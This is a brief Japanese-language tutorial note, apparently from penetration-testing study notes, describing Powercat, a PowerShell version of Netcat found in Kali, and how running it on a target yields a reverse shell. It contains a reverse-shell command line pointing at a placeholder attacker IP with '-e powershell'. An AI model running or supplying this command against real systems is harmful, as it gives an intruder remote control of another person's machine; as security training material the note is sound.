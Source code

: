 # Powercat
Kaliにデフォで入っているNetcatのPowershell版。  
デフォルトのパスは以下。  
/usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1

上記のpowercat.ps1をターゲットサーバにダウンロード・実行させるとリバースシェルを確立できる。

## 使い方
windows上で実行するのが基本。  
例：
```
powercat -c <attacker IP> -p 4444 -e powershell
```

-c => 接続先のIPアドレスを指定  
-e => どのプロセスを使って実行するかを指定 (例： -e powershell)